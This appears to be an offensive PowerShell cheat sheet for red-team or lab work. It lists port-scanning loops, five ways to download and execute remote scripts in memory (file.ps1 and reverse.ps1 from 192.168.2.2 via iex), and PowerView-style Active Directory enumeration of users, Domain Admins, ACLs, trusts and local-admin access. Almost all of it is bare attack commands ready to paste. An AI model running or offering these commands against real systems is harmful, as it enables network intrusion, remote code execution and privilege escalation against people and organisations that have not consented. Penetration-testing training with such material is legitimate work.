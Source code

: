 ``` Ping with IP Powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null
```

```
1..20 | % { $a = $_; write-host "------"; write-host "10.0.0.$a"; 22,53,80,445 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.1.1.$a",$_)) "Port $_ is open!"} 2>$null}
```

```PowerShell in-memory Download and Execute

iex (iwr 'http://192.168.2.2/file.ps1')

--------------------------

$down = [System.NET.WebRequest]::Create("http://192.168.2.2/file.ps1")
$read = $down.GetResponse()
IEX ([System.IO.StreamReader]($read.GetResponseStream())).ReadToEnd()

--------------------------

$file=New-Object -ComObject
Msxml2.XMLHTTP;$file.open('GET','http://192.168.2.2/file.ps1',$false);$file.sen
d();iex $file.responseText

--------------------------

iex (New-Object Net.WebClient).DownloadString('https://192.168.2.2/reverse.ps1')

--------------------------

$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.2.2/reverse.ps1 ‘);
sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

--------------------------

```


# Domain Enumerate
``` Get current domain

Get-NetDomain
Get-NetDomain –Domain cyberwarfare.corp

```

``` Retrieve Current SID and Domain Controller 

Get-NetDomainController –Domain cyberwarfare.corp
Get-DomainSID

```

```Retrieve a list of users in the current domain

Get-NetUser
Get-NetUser –UserName emp1

```

``` Retrieve a list of computers in the current domain

Get-NetComputer
Get-NetComputer – FullData
Get-NetComputer –OperatingSystem “Windows Server 2016 Standard”

```

``` List all domain groups in the current domain

Get-NetGroup
Get-NetGroup –FullData
Get-NetGroup –Domain cyberwarfare.corp

```

``` Enumerate privilege domain group members and local administrators
group members 

Get-NetGroupMember –GroupName “Domain Admins” -verbose
Get-NetLocalGroup –ComputerName DC-01 -ListGroups

```

```ACL Enumeration, get the ACLs associated with an entity
 
Get-ObjectAcl -SamAccountName <Domain_User> –ResolveGUIDs

```
``` Unique and interesting ACL Scanning

Invoke-ACLScanner –ResolveGUIDs

```

``` Enumerate Domain Trusts

Get-NetDomainTrust
Get-NetDomainTrust –Domain cyberwarfare.corp

```

```Enumerate all domain in a Forest

Get-NetForestDomain –Verbose
Get-NetForest -Verbose

```
``` Find computer sessions where current user has local admin access

Find-LocalAdminAccess -Verbose

```

